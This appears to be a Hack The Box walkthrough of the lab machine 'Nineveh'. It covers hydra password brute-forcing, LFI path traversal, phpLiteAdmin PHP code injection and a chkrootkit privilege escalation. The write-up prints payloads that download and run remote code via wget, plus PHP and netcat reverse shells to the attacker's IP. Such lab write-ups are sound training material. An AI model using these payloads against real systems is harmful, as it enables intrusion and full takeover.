 ```yaml
---
layout: post
title: "HTB-Nineveh"
categories: HTB-Walkthrough
---
```


![nineveh](/assets/img/nineveh.png)


Nineveh is an interesting box from HTB, and very much an OSCP-like box.

Nmap first...

`nmap -sV -Pn --min-rate 10000 -sC |tee -a nin.txt`

```

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

```


It seems to be good practice to add found domain names to our /etc/hosts file; it can often reveal
pages that, without it, do not appear. So before we start enumerating the two web ports...

`nano /etc/hosts` , type in the ip address...then press tab, and enter the domain name...like this:

```

10.10.10.43	nineveh.htb

```

You can add more domain names if you find them, to the same line; just have a space between them.

First we'll try port 80...

It looks like we'll need to brute-force directories to move forwards...

```

gobuster dir -u http://10.10.10.43/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh

```

gobuster finds `/department` which is a web login page, and in the source we find two possible usernames: `admin` and `amrois`.

We can use a hydra dictionary attack with these to get valid creds.

make user.txt containing the found names...
trying a few of the usual suspects manually, I work out that the page reveals valid/invalid usernames.
admin is valid
amrois is invalid

so I wont be needing user.txt after all...
I've chosen to use the rockyou.txt password file, 



```

hydra 10.10.10.43 -l admin -P /root/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -V


```

I love it when it works...what a tool!

```

[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-20 00:22:07

```

After logging in we find that this too is under construction, but there is a link to notes.txt

```

Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois


```

Directory Traversal, and LFI is possible with this page, we can easily read /etc/passwd....

```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd
```

So now we just need to find a way to put a file onto the server!


The note hints that we need to find a secret folder? which may relate to a database interface?

Trying /secret fails, but /db comes up trumps with a phpadminlite 1.9 login page.

We just need a password for this, hydra again is the best idea.

We can use 'whatever' as username ...hydra knows this is a dummy id.

```
hydra 10.10.10.43 -l whatever -P /usr/share/wordlists/rockyou.txt https-post-form "/db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."

```
Yay!!!

```

[443][http-post-form] host: 10.10.10.43   login: whatever   password: password123

```

Should have probably tried some manually first, since that is one everyone tries...no matter!


<h3>Exploiting phpadminlite 1.9</h3>

`searchsploit phpliteadmin 1.9`

```


-------------------------------------------------- ----------------------------------------
 Exploit Title                                    |  Path
                                                  | (/usr/share/exploitdb/)
-------------------------------------------------- ----------------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection    | exploits/php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities     | exploits/php/webapps/39714.txt
-------------------------------------------------- ----------------------------------------
Shellcodes: No Result

```

Checking out these files we find a method to use.



<h4>Create a database</h4>

create `boo.php` database

create table : newtable  1 field

create field : `somefiled`  `TEXT` 

default value: `<?php system("wget http://10.10.14.19/evil.txt -O /tmp/evil.php;php /tmp/evil.php"); ?>`



make evil.txt file containing a php reverse-shell one-liner.

```
<?php $sock=fsockopen("10.10.14.19",6969);exec("/bin/sh -i <&3 >&3 2>&3");?>
```

start a webserver and nc listener....
`python3 -m http.server 80`


`nc -nlvp 6969`


execute the lfi with....(it takes quite some experimentation to get this from the initial lfi address..)

initial lfi indicator
```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd
```


eventual working exploit lfi...

`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/boo.php`


##################


<h3>Privesc to root...</h3>

There appears to be report folder in amrois home/folder  ran by root via chkrootkit
 it calls `/tmp/update`


research chrootkit local priv esc.....

all we have to do (because it checks for updates..)
...is exploit the fact it looks in /tmp folder for 'update'


... so we make file `/tmp/update` containing nc reverse shell (old nc)

A favourite trick of writing files on targets,that I've picked up, is using cat. 
It's handy when text editors are unavailable or problematic to use...but I've come to use it frequently; 
initially because I wanted to remember it, but I continue to do so because I think its a neat trick.

```

cat >update<<_EOF
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 1337 >/tmp/f
_EOF

```

`chmod +x update` to make it executable.

Send a copy to /tmp `cp update /tmp/`

...set listener to 1337

######################

```

root@kali:~/HTB/retired/nineveh# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.43] 44776
/bin/sh: 0: can't access tty; job control turned off
whoami
root                                                                                                               
id                                                                                                               
uid=0(root) gid=0(root) groups=0(root)                                                                             
cat /root/root.txt                                                                                               
8axxxxxxxxxxxxxxxxxxxxxxxxxxxx3a                                                                                   
ls /home                                                                                                         
amrois                                                                                                             
cat /home/amrois/user.txt                                                                                        
82xxxxxxxxxxxxxxxxxxxxxxxxxxxxc8      

```
:)





